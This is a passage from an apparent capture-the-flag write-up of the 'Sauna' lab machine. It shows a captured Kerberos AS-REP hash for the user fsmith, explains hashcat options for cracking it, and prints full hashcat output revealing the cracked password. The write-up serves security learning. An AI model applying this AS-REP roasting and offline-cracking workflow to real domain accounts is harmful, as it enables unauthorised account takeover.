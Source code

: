 ```text
$krb5asrep$23$fsmith@EGOTISTICALBANK:30279f364d10168e316be0713c91cb16$422f07d5f637adc6c396d1999bca49283f7f24c0257ead111b9adf94c623a7247e8e7575905e1ed3978dbce3a7a2b2d293d7339bc80dd2df4154ac019f614809aed59536842505f726e48a0119a18c3bc66d31cfe424269592b558e2ffdd616e36b1f8fccb6e4e16c8a0d9c1b9b668db776d4c46a1fa2d5cd00e2a00c59f218425690286f2bb95b4336ae1edea8def1d3da3ebd1c496da4664c1ce6299b0370dd87219b23243ce47fd1272dd5e1f084305cf1732ce7c5084727a9199935b2bcb3198c17e3d84d339611150501ccf17ae4f16e4784172da981623ac96f14bfbf17cf4afb8df652c089e363f2f07562703db74106bd22179dd37
```

It contained the Kerberos hash for the user `fsmith`! I had been right in my hunch that it was still a valid username despite the odd Metasploit behavior earlier. 

I am not sure why `GetNPUsers.py` doesn't inform you when it finds a valid user and gets the hash, so pay attention to your output files! Next I fired up `hashcat` to try to crack the password hash.  The option `-m 18200` is the flag which tells `hashcat` that this is a `krb5asrep` type hash and `-a 0` makes it use the words straight from the specified wordlist without any mangling rules applied.

```text
zweilos@kalimaa:~/htb/sauna$ hashcat -m 18200 -a 0 sauna.hash ~/rockyou.txt --force

Dictionary cache built:
* Filename..: /home/zweilos/rockyou.txt
* Passwords.: 14344391
* Bytes.....: 139921506
* Keyspace..: 14344384
* Runtime...: 6 secs

$krb5asrep$23$fsmith@EGOTISTICALBANK:30279f364d10168e316be0713c91cb16$422f07d5f637adc6c396d1999bca49283f7f24c0257ead111b9adf94c623a7247e8e7575905e1ed3978dbce3a7a2b2d293d7339bc80dd2df4154ac019f614809aed59536842505f726e48a0119a18c3bc66d31cfe424269592b558e2ffdd616e36b1f8fccb6e4e16c8a0d9c1b9b668db776d4c46a1fa2d5cd00e2a00c59f218425690286f2bb95b4336ae1edea8def1d3da3ebd1c496da4664c1ce6299b0370dd87219b23243ce47fd1272dd5e1f084305cf1732ce7c5084727a9199935b2bcb3198c17e3d84d339611150501ccf17ae4f16e4784172da981623ac96f14bfbf17cf4afb8df652c089e363f2f07562703db74106bd22179dd37:Thestrokes23

Session..........: hashcat
Status...........: Cracked
Hash.Type........: Kerberos 5 AS-REP etype 23
Hash.Target......: $krb5asrep$23$fsmith@EGOTISTICALBANK:30279f364d1016...79dd37
Time.Started.....: Tue Jun  2 16:14:24 2020 (52 secs)
Time.Estimated...: Tue Jun  2 16:15:16 2020 (0 secs)
Guess.Base.......: File (/home/zweilos/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:   203.5 kH/s (7.13ms) @ Accel:16 Loops:1 Thr:64 Vec:8
Recovered........: 1/1 (100.00%) Digests, 1/1 (100.00%) Salts
Progress.........: 10539008/14344384 (73.47%)
Rejected.........: 0/10539008 (0.00%)
Restore.Point....: 10534912/14344384 (73.44%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidates.#1....: Tiona172 -> Thelink

Started: Tue Jun  2 16:13:42 2020
Stopped: Tue Jun  2 16:15:18 2020
```
